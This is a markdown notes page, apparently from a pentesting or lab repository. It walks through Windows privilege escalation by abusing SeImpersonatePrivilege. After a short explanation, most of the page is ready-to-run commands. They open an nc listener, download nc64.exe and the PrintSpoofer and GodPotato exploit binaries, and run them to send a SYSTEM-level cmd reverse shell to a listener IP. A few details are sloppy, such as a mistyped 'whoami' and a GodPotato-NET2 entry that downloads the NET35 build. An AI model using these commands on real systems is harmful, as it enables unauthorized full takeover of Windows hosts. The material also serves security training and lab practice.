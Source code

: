 ## Windows Setup

Assign the **SeImpersonatePrivilege** to the new user:

1. Go to "Edit Group Policy"
2. Computer Configuration
3. Windows Settings
4. Security Settings
5. Local Policies
6. User Rights Assignment
7. Impersonate a client after authentication
8. Right click on "Properties"
9. Add user or group

## SeImpersonatePrivilege

When you assign the "Impersonate a client after authentication" user right to a user, you permit programs that run on behalf of that user to impersonate a client.

An attacker with SeImpersonatePrivilege could create a service, mislead a client into connecting to the service, and then impersonate that computer to elevate the attacker's level of access to that of the device.

## Exploitation

Check you have the privilege@
```powershell
whaomi /priv
```

You're looking for the **SeImpersonatePrivilege** state to be **Enabled**

Various exploits can be used
- PrintSpoofer
- GodPotato

In all cases, we first have to start up a local listener:
```sh
nc -lvnp 5555
```

Download ncat on the remote machine:
```powershell
iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

---

**PrintSpoofer**

Download exploit on Windows:

32 bit
```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe" -Outfile PrintSpoofer32.exe
```

64 bit
```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```

Execute exploit:
```powershell
PrintSpoofer64.exe -c "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

Understand the version of `.NET` with the following command and use the relative exploit:
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

---

**GodPotato-NET2**

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe" -Outfile GodPotato-NET35.exe
```

Execute exploit:
```powershell
.\GodPotato-NET35.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

**GodPotato-NET35**

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe" -Outfile GodPotato-NET35.exe
```

Execute exploit:
```powershell
.\GodPotato-NET35.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

**GodPotato-NET4**

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe" -Outfile GodPotato-NET4.exe
```

Execute exploit:
```powershell
.\GodPotato-NET4.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

---
## References 

on SeImpersonatePrivileg
- https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege
- https://juggernaut-sec.com/seimpersonateprivilege/
- https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

PrintSpoofer exploit
- https://github.com/itm4n/PrintSpoofer
- https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

GodPotato exploit
- https://github.com/BeichenDream/GodPotato




